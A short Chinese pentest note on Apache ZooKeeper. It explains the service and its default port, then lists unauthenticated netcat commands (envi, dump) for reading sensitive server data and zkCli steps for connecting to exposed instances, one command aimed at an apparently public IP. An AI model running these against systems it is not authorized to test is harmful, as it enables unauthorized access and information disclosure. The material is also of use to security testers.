


zookeeper
目录
ZooKeeper是一个分布式的，开放源码的分布式应用程序协调服务。它主要服务于分布式系统，可以用ZooKeeper来做：统一配置管理、统一命名服务、分布式锁、集群管理。使用分布式系统就无法避免对节点管理的问题 (需要实时感知节点的状态、对节点进行统一管理等等)，而由于这些问题处理起来可能相对麻烦和提高了系统的复杂性，ZooKeeper作为一个能够通用解决这些问题的中间件就应运而生了。
ZooKeeper的数据结构，跟Unix文件系统非常类似，可以看做是一颗树，每个节点叫做ZNode。每一个节点可以通过路径来标识。
ZooKeeper是Apache软件基金会的一个软件项目，它为大型分布式计算提供开源的分布式配置服务、同步服务和命名注册。ZooKeeper的架构通过冗余服务实现高可用性。Zookeeper的设计目标是将那些复杂且容易出错的分布式一致性服务封装起来，构成一个高效可靠的原语集，并以一系列简单易用的接口提供给用户使用。
默认端口2181
渗透
未授权
查看敏感信息
echo envi|nc 10.10.10.10 2181

echo dump|nc 180.184.68.42 2181

未授权链接节点
wget https://mirrors.tuna.tsinghua.edu.cn/apache/zookeeper/zookeeper-3.9.0/apache-zookeeper-3.9.0-bin.tar.gz
tar -zxvf ./apache-zookeeper-3.9.0-bin.tar.gz
cd apache-zookeeper-3.9.0-bin/bin
/zkCli.sh -server 10.14.6.4:2181
也可以用这个链接（windows）